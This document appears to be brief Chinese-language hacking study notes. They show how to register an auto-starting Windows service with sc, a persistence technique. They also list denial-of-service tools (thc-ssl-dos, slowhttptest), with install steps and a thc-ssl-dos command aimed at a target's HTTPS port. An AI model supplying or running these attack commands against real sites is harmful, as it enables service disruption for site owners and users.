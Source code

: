 ------

服务启动：

增加一个服务

sc create “nihao” binpath=”cmd /c start mkdir c:\123”

设置服务描述

sc description nihao “hahahaha”

设置自动启动

sc config nihao start=auto

net start nihao 开启服务

------

## DOS拒绝服务攻击

parrotOS = kali

parrotsec

------

### DDOS = 分布式拒绝服务攻击

tcp三次握手

目前ddos攻击无解

一般大佬防御（用钱）

大多数情况，如果目标网站是挂了CDN，那你打的就是cdn，没效果

------

### ssl-dos

apt-get install thc-ssl-dos

目标是打击https网站

thc-ssl-dos [目标ip] [目标ssl：443] –accept

------

### 慢速攻击（打击网站有效果）

apt-get install openssl

apt-get install libssl-dev

apt-get install slowhttptest

### slowhttptest
